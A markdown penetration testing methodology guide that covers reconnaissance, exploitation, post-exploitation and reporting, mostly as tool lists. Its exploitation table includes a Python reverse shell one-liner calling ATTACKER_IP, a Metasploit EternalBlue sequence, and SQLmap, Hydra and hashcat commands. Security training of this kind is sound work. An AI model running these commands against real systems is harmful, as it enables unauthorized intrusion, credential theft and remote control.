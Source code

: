 # Comprehensive Penetration Testing Methodology

This document outlines a detailed penetration testing methodology, covering various phases from initial reconnaissance to final reporting. It includes common tools, techniques, and considerations for each stage.

## 1. Reconnaissance (Information Gathering)

Reconnaissance is the initial phase where an attacker gathers as much information as possible about the target system or network. This can be done passively or actively.

### 1.1. Passive Reconnaissance
Gathering information without directly interacting with the target. This minimizes the risk of detection.

- **WHOIS Lookups**: Obtain domain registration details, including registrant contact information, creation/expiration dates, and nameservers.
  - *Tools*: `whois` command-line tool, online WHOIS services.
- **DNS Enumeration**: Discover DNS records (A, MX, NS, CNAME, TXT) to map out the target's network infrastructure.
  - *Tools*: `dig`, `nslookup`, `host`, DNSdumpster, Sublist3r, fierce.
- **OSINT (Open Source Intelligence)**: Utilize publicly available information from search engines, social media, public records, and news articles.
  - *Tools*: Google Dorks, Maltego, Shodan, Censys.
- **Email Harvesting**: Collect email addresses associated with the target for potential phishing or social engineering attacks.
  - *Tools*: theHarvester, Hunter.io.

### 1.2. Active Reconnaissance
Interacting directly with the target to gather information. This carries a higher risk of detection but provides more accurate and real-time data.

- **Network Scanning (Nmap)**: Identify live hosts, open ports, running services, and their versions.
  ```bash
  # Basic Nmap Scan: Discover open ports and services
  nmap -sS -sV -oN initial_scan.nmap <target_IP>

  # Comprehensive Scan: Includes OS detection, version detection, script scanning, and traceroute
  nmap -sC -sV -O -T4 -oA comprehensive_scan <target_IP>

  # Full Port Scan: Scans all 65535 ports
  nmap -p- --min-rate 1000 -T4 -oN full_port_scan.nmap <target_IP>

  # UDP Scan: Identify open UDP ports (can be slow)
  nmap -sU --top-ports 20 -oN udp_scan.nmap <target_IP>
  ```
- **Vulnerability Scanning**: Use automated scanners to identify known vulnerabilities in services and applications.
  - *Tools*: Nessus, OpenVAS, Qualys, Nikto (web server scanner), WPScan (WordPress scanner).

## 2. Vulnerability Analysis

This phase involves identifying and analyzing weaknesses in the target system that could be exploited.

- **Manual Service Inspection**: Manually examine identified services for misconfigurations, default credentials, or known vulnerabilities not detected by automated scanners.
  - *Techniques*: Banner grabbing, manual web application testing (e.g., checking for common web vulnerabilities like SQL Injection, XSS, CSRF).
- **Automated Vulnerability Scanners**: Utilize tools to automatically detect known vulnerabilities.
  - *Tools*: 
    - **Nessus**: Commercial vulnerability scanner with extensive plugin database.
    - **OpenVAS**: Open-source vulnerability scanner.
    - **Nikto**: Web server scanner that checks for dangerous files/CGIs, outdated server software, and other problems.
    - **Burp Suite (Scanner)**: Integrated web vulnerability scanner in the Pro version.
- **Exploit Database Research**: Cross-reference identified services and versions with public exploit databases (e.g., Exploit-DB, CVE Mitre) to find publicly available exploits.

## 3. Exploitation

Exploitation is the process of leveraging identified vulnerabilities to gain unauthorized access or control over the target system.

### 3.1. Common Exploitation Tools & Techniques

| Tool / Technique | Purpose | Example / Description |
|------------------|---------|-----------------------|
| **Metasploit Framework** | A powerful framework for developing, testing, and executing exploits. | `use exploit/windows/smb/ms17_010_eternalblue` (for EternalBlue) <br> `set RHOSTS <target_IP>` <br> `exploit` <br> Used for creating payloads, listeners, and exploiting various vulnerabilities. |
| **Burp Suite** | An integrated platform for performing security testing of web applications. | Used for intercepting, analyzing, and modifying HTTP requests/responses. Essential for web vulnerability testing (SQLi, XSS, LFI, RCE, etc.). |
| **SQLmap** | Automated SQL injection and database takeover tool. | `sqlmap -u "http://example.com/vuln?id=1" --dbs --batch` <br> Automates the detection and exploitation of SQL injection flaws. |
| **Hydra** | A fast and flexible network logon cracker that supports numerous protocols. | `hydra -L users.txt -P passwords.txt ssh://<target_IP>` <br> Used for brute-forcing login credentials for services like SSH, FTP, HTTP, etc. |
| **John the Ripper / Hashcat** | Password cracking utilities. | `john --wordlist=rockyou.txt hash.txt` <br> `hashcat -m 0 -a 0 hash.txt rockyou.txt` <br> Used to crack password hashes obtained from compromised systems. |
| **Reverse Shells** | A shell session initiated from the target machine back to the attacker's machine. | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` <br> Crucial for establishing initial access and maintaining persistence. |
| **File Upload Vulnerabilities** | Exploiting insecure file upload functionalities to upload malicious scripts (e.g., web shells). | Bypassing file type restrictions (e.g., `.php` instead of `.php.jpg`). |

## 4. Post-Exploitation

Once initial access is gained, the post-exploitation phase focuses on maintaining access, escalating privileges, and gathering more information.

- **Privilege Escalation**: Attempt to gain higher-level access on the compromised system (e.g., from a regular user to root/administrator).
  - *Linux*: 
    - **Kernel Exploits**: Search for known vulnerabilities in the Linux kernel version.
    - **Misconfigured SUID/SGID Binaries**: Identify binaries that run with elevated privileges.
    - **Cron Jobs**: Look for insecurely configured cron jobs.
    - **Sudo Misconfigurations**: Check `sudo -l` for commands executable without password.
    - *Tools*: LinPEAS, Linux Exploit Suggester.
  - *Windows*: 
    - **Kernel Exploits**: Similar to Linux, search for Windows kernel vulnerabilities.
    - **Service Exploits**: Look for unquoted service paths, weak service permissions.
    - **AlwaysInstallElevated**: Check for misconfigurations that allow non-admin users to install software with elevated privileges.
    - **Token Impersonation**: Exploit Windows tokens.
    - *Tools*: WinPEAS, PowerUp (PowerShell).
- **Lateral Movement**: Expand access to other systems within the network.
  - *Techniques*: Pass-the-hash, Kerberoasting, exploiting trust relationships.
- **Data Exfiltration**: Extract sensitive data from the compromised system.
  - *Techniques*: DNS exfiltration, HTTP/HTTPS tunneling, direct file transfer.
- **Persistence**: Establish methods to maintain access to the system even after reboots or security measures are implemented.
  - *Techniques*: Backdoors, scheduled tasks, rootkits, modifying startup scripts.

## 5. Reporting

The final phase involves documenting all findings, their impact, and recommendations for remediation.

- **Executive Summary**: A high-level overview for management, explaining the scope, key findings, and overall risk posture.
- **Technical Findings**: Detailed descriptions of each vulnerability, including:
  - **Vulnerability Name**: e.g., SQL Injection, Cross-Site Scripting.
  - **Description**: Explanation of the vulnerability.
  - **Impact**: What could happen if exploited (e.g., data breach, remote code execution).
  - **Proof of Concept (PoC)**: Steps to reproduce the vulnerability, including commands, screenshots, and relevant code snippets.
  - **Severity**: CVSS score and qualitative rating (Critical, High, Medium, Low, Informational).
- **Risk Assessment**: Evaluate the likelihood and impact of each vulnerability.
- **Remediation Recommendations**: Provide clear, actionable steps for fixing each vulnerability, including best practices and references to official documentation.
- **Appendices**: Any additional information, such as tool outputs, network diagrams, or raw logs.
